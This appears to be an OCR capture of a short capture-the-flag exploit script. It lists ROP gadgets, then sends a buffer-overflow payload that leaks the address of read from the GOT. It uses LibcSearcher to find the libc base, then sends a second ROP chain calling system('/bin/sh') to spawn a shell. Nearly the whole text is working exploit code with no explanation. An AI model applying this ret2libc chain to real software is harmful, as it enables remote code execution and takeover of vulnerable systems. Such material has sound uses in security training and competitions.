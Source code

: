 ```
# 0x000000000040072f : pop rbp ; pop r14 ; pop r15 ; ret

# 0x00000000004005a0 : pop rbp ; ret

# 0x0000000000400733 : pop rdi ; ret

# 0x0000000000400731 : pop rsi ; pop r15 ; ret

# 0x000000000040072d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret

# 0x00000000004004d1 : ret

# 0x0000000000400532 : ret 0x200a

  

# Unique gadgets found: 12

  

pay=cyclic(0x28)+p64(0x0000000000400733)+p64(got)+p64(plt)+p64(sym)

ru("What's your name? ")

sl(pay)

  

via=rul1()

print(hex(via))

libc=LibcSearcher("read",via)

  

libc_base=libc_base(via,"read")

  

system=libc_base+libc.dump("system")

binsh=libc_base+libc.dump("str_bin_sh")

ru("What's your name? ")

sl(cyclic(0x28)+p64(0x0000000000400733)+p64(binsh)+p64(system)+p64(0x4004d1)+p64(sym))

  

go()
```

